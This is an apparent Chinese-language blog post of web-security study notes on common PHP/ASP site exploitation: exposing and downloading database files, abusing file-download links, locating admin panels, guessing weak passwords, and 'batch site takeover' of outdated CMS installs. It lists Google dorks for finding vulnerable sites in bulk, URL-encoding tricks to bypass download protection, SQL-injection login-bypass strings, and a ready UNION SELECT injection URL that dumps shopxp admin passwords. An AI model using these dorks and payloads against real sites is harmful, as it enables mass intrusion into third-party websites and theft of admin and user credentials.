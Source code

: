 ```yaml
---
layout:     post
title:      Web笔记（十七）php常见漏洞利用
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是学习了大佬视频教程分析常见网站漏洞利用之后记录的笔记，以便以后在遇到一些相应功能模块的时候可以想到可能存在哪些漏洞。
date:       2020-12-18
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - php
    - 漏洞利用
---
```




## 0x01 网站暴库漏洞

#### 1. 简介

暴库，就是通过一些技术手段或者程序漏洞得到数据库的地址，并将数据非法下载到本地，黑客非常乐意于这种工作，为什么呢？因为黑客在得到网站数据库后，就能得到网站管理账号，对网站进行破坏与管理，黑客也能通过数据库得到网站用户的隐私信息，甚至得到服务器的最高权限。

#### 2. 如何找到有漏洞的站点
- inurl:/inc/conn.asp    （可以将/进行URL编码，即inc%5cconn.asp）
- inurl:/inc+conn.asp to parent directory
- intext:to parent directory
- inurl:/inc/conn.asp
- inurl:/inc+conn.asp
- 利用Google来搜索目录浏览的Google语法主要有：intitle、intext、inurl、site、filetype等等
- 搜索域名后缀，常见的域名后缀有：com、net、mil、org、info、gov、edu、biz、coop、areo、pro、int、arpa

#### 3. 利用目录遍历漏洞
所有可以目录浏览的网页都有一些相同的地方，主要是下面几个：
- to parent directory
- last modified Description
- 转到父目录

#### 4. 常见数据库暴库文件形式
- access：data.mdb

- sqlserver、mysql：数据库连接文件

#### 5. 暴库绕过防下载
- #sdsf.mdb 下载时改为 %23sdsf.mdb
- #@!$%^&*asdfkladsf@!#.mdb 这些奇奇怪怪的符号都先进行URL编码再去访问，编码为：%23@%21%24%25%5E%26%2aasdfkladsf@%21%23.mdb

#### 6. 高级语法暴库
- inurl:./..admin../..add..
- inurl:./..admin../..del..
- inurl:/.asp<id=<% <%<%
- intext:<%eval
- intitle:<%eval



## 0x02 下载漏洞

#### 1. 可能存在漏洞的URL

一般在形如下面这些可以下载的链接处可能存在下载漏洞。

- http://xxxx/
- http://xxxx/shida/UploadFiles/indentAttFile/2012061222041778.doc
- http://xxxx/down.asp?fileup=shida/UploadFiles/indentAttFile/2012061222041778.doc
- http://xxxx/news/down.asp?FileName=doc/2012-5/2012053010329973.doc

#### 2. 可以搜索一些关键词

- inurl:down.asp?fileup=
- inurl:down.asp?FileName=

#### 3. 下载漏洞利用
- 通过蜘蛛爬行
- 找到该url
- 下载conn.asp、config.php、config.asp
- db.mdb



## 0x03 网站后台密码爆破

#### 1. 简介

为了管理员方便管理网站，cms系统通常有管理员后台管理接口，该接口需要出示管理员账号密码，正确验证后方可登录。

#### 2. 常见后台
- 织梦：dede
- discuz：admin.php
- 帝国：e/admin
- phpweb：admin.php
- WordPress：wp-admin
- aspcms：admin
- 科讯：admin
- 南方：admin
- 良精：admin
- ecshop：admin
- ......

还有manager、login_admin、login_manage、houtai、denglu等，从robots.txt中也可能看到。



## 0x04 弱口令猜解

#### 1. 简介

管理员为了省事，可能会忽略掉网站后台密码的安全性，一般可能会设置一些初始密码或弱口令。

#### 2. 猜解方法

- 常见初始密码弱口令：admin、admin888、admin123、123456、111、123、111111等等
- 逻辑万能秘钥

```
'or' = 'or'
admin' or 1=1 --
admin' or '1'='1
```

#### 3. 常见工具

- burpsuite
- httpfuzzer（如果有验证码需要简单破解）
- ......



## 0x05 网站漏洞exp利用

#### 1. 简介

exp是exploit（漏洞利用）的缩写，当我们cms出现漏洞的时候针对漏洞原理可以写出针对该漏洞的exploit，有的exp可以直接添加管理员、或者getshell、爆出管理员账号密码、数据库账号密码等等。

#### 2. 收集途径

- 百度收集
- 与朋友探讨交流
- 利用工具直接exp

#### 3. 批量拿站
关键字搜索，如：

- 有限公司--Powered by ASPCMS V2.0
- Powered by AspCms2
- Powered by AspCms2.0
- AspCms2.0
- Powere

关键字：inurl:newgoods.asp?action_key_order=news

利用方法：admin_shopxp/upLoad_bm.asp

关键字：
- inurl:/class/?1.html
- inurl:class/index.php?catid=0
- inurl:/page/html/?1.html
- inurl:news/html/?411/html（推荐）
- 默认后台地址：/admin.php

#### 4. 注入地址

- down/class/index.php?myord=1
- news/class/index.php?showtag=
- 万能密钥 admin 'or'1'='1

#### 5. 批量
搜索关键字：

- Powered by DedeCMS_V57_UTF8_SP1 2004-2011 DesDev Inc
- inurl:shopxp_news.asp
- TEXTBOX2.ASP?action=modify&news%69d=122%20and%201=2%20union%20select%201,2,admin%2password,4,5,6,7%20from%20shopxp_admin